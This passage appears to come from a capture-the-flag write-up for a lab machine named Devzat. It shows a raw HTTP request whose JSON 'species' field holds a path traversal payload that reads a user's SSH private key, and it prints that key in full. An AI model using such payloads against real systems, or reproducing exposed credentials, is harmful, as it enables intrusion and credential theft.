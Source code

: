 Reading `/etc/passwd` discloses three interactive users: `root`, `patrick`, and `catherine`.

Abuse this vulnerability to read `patrick`'s SSH private key.

```http
POST /api/pet HTTP/1.1
Host: pets.devzat.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://pets.devzat.htb/
Content-Type: text/plain;charset=UTF-8
Origin: http://pets.devzat.htb
Content-Length: 61
Connection: close

{"name":"'","species":"../../../../home/patrick/.ssh/id_rsa"}
```

```txt
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```
